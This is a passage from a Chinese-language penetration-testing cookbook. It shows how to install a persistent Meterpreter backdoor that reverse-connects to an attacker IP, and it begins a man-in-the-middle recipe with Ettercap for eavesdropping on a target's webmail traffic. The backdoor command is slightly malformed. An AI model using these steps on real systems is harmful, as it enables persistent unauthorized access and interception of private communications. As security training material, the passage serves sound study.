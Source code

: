 3.  永久后门有几个选项，包括：

    +   `-A`：这个选项会自动启动一个匹配的多重处理器来链接到代理端。
    
    +   `-S`：这个选项让后门自动化启动为系统服务。
    
    +   `-U`：这个选项让后门在用户启动系统时自动启动。
    
    +   `-i`：这个选项设置两次尝试回复攻击者机器之间的秒数。
    
    +   `-p`：这个选项设置攻击者机器上 Metasploit 的监听端口。
    
    +   `-P`：这个选项设置所用的载荷。默认使用` Reverse_tcp `，并且它通常是你想使用的东西。
    
    +   `-r`：这个选项设置攻击者机器的 IP 地址。
    
4.  现在，我们执行命令来建立后门：

    ```
    run persistence –U –A –i 10 – 8090 –r 192.168.10.109
    ```
    
5.  后门现在已经建立了。如果成功的话，你会注意到你有了第二个 Meterpreter  会话。

    ![](img/7-6-2.jpg)
    
### 工作原理

这个秘籍中，我们使用 Meterpreter  来建立永久后门。我们在黑进目标主机并获得  Meterpreter shell 之后开始了这个秘籍。之后我们通过浏览帮助文档那个，探索了一些可用的永久化方式。最后，我们通过运行安装命令并设置它的选项来完成后门的安装。

## 7.7 中间人（MITM）攻击

这个秘籍中，我们会对目标进行中间人（MITM）攻击。MITM攻击允许我们窃听目标和别人的通信。在我们的例子中，当某个 Windows 主机在<http://www.yahoo.com>收发邮件时，我们使用 Ettercap 来窃听它的通信。

### 准备

为了执行这个秘籍，我们需要：

+ 无线网络连接

+ 连接到无线网络的机器

### 操作步骤

让我们启动 Ettercap 来开始中间人攻击。

1.  打开终端窗口并启动 Ettercap。使用`-G`选项加载 GUI：

    ```
    ettercap –G
    ```
    
